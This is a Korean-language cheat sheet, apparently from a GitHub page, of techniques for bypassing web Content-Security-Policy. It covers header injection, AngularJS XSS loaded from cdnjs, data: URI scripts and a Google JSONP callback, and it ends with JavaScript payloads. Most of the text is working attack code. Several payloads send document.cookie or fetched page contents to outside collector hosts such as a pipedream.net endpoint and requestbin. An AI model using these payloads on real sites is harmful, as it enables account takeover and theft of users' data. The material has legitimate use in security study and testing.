 <span style="color:#21C587">&#35;</span> Header Injection<br>

만약 헤더 인젝션이 가능하다고 가정하에 응답 코드를 102와 같은 것들로 수정하면 브라우저는 CSP를 해석하지 않아 우회가 가능합니다.

<span style="color:#21C587">&#35;</span> AngularJS xss<br>
```
Content-Security-Policy: default-src 'self' script-src 'self' cdnjs.cloudflare.com;
```

```html
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([1],alert)'></div>

<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([location.replace("url"+document.cookie)],console.log)'></div>
```
만약 위와 같이 `cdnjs.cloudflare.com`와 같이 AngularJS를 가져와서 사용할 수 있을 경우 AngularJS XSS를 이용하면 CSP를 우회할 수 있고, 예시 페이로드는 위와 같습니다.

<span style="color:#21C587">&#35;</span> CSP Option ↔ Bypass<br>
```html
Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests

<iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
```
```html
Content-Security-Policy: script-src https://google.com 'unsafe-eval' data: http://*; 
child-src 'none'; 
report-uri /Report-parsing-url;

<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
```html
Content-Security-Policy: script-src https://*.google.com;

<script+src="https://accounts.google.com/o/oauth2/revoke?callback=(location.href='requestbin/?flag='+bdocument.cookie);"></script>
```

---
## <span style="color:#21C587"></span> Javascript Payload<br>

```javascript
fetch('https://pocas.kr', {
  method: 'POST',
  headers: {'headerName':'headerValue'}
}).then(x=>x.text()).then(x=>fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f="+x));
```
```javascript
fetch('https://pocas.kr', {
  method: 'POST',
  headers: {'headerName':'headerValue'}
}).then(function(x){return x.text();}).then(function(xx){fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f="+xx)});
```
```javascript
x = new XMLHttpRequest();
x.open("GET", "https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f=" + document.cookie, true);
x.send();
```
